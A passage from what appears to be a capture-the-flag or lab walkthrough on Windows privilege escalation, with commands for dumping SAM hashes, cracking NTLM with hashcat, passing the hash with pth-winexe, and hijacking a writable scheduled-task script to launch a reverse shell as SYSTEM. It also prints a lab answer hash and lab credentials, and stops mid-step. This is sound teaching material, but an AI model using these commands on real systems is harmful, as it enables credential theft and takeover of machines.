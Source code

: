 On Kali, clone the `creddump7` repository (the one on Kali is outdated and will not dump hashes correctly for 
Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:

    git clone https://github.com/Tib3rius/creddump7
    pip3 install pycrypto
    python3 creddump7/pwdump.py SYSTEM SAM

Crack the admin `NTLM` hash using `hashcat`:

    hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt

Use the cracked password to log in as the admin using winexe or RDP.

### Questions

**What is the NTLM hash of the admin user?**

Answer: `a9fdfa038c4b75ebc76dc855dd74f0da`

## Passwords - Passing the Hash

Why crack a password hash when you can authenticate using the hash?

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. 
The full hash includes both the `LM` and `NTLM` hash, separated by a colon:

    pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe

## Scheduled tasks

View the contents of the C:\DevTools\CleanUp.ps1 script:

    type C:\DevTools\CleanUp.ps1

The script seems to be running as `SYSTEM` every minute. Using `accesschk.exe`, note that you have the ability to 
write to this file:

    C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1

Start a listener on Kali and then append a line to the `C:\DevTools\CleanUp.ps1` which runs the `reverse.exe` 
executable created:

    echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

Wait for the Scheduled Task to run, which should trigger the reverse shell as `SYSTEM`.

## Insecure GUI Apps

Start an RDP session as the "user" account:

    rdesktop -u user -p password321 MACHINE_IP

Double-click the `AdminPaint` shortcut on the Desktop. Once it is running, open a command prompt and note that Paint 
is running with admin privileges:
